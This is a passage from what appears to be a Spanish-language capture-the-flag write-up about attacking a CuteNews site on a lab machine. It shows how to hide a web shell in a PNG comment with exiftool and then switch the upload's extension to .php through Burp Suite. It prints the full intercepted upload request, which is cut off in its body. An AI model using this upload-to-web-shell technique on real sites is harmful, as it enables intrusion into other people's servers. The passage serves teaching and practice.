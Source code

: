 Con esos dos comandos lo que hacemos es primero generar un fichero png vacio con la utilidad convert de [imagemagick](https://imagemagick.org/index.php) y le metemos en un comentario la interfaz de comandos con la herramienta [exiftool](https://exiftool.org/).

Una vez generada, la subiremos como nuestro avatar a la máquina. Para subirlo, simplemente buscamos el fichero donde lo hayamos.
Todo esto tendremos que hacerlo con burpsuite activo ya que tendremos que modificar la peticion de subida del fichero cambiando la extension de .png a .php.

* Petición Original:

```
POST /CuteNews/index.php HTTP/1.1
Host: 10.10.10.206
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------18797126863564466322517621856
Content-Length: 1701
Origin: http://10.10.10.206
Connection: close
Referer: http://10.10.10.206/CuteNews/index.php?mod=main&opt=personal
Cookie: CUTENEWS_SESSION=58te60j4nv945lcderikrvck64
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="mod"

main
-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="opt"

personal
-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="__signature_key"

0ad6035b4677dd3ef8e125b730e91508-fr3d1s4nm4r
-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="__signature_dsi"

ed61e54fb62549cb18ba5985876659a4
-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="editpassword"


-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="confirmpassword"


-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="editnickname"

fr3d1s4nm4r
-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="avatar_file"; filename="shell.png"
Content-Type: image/png

PNG

   
```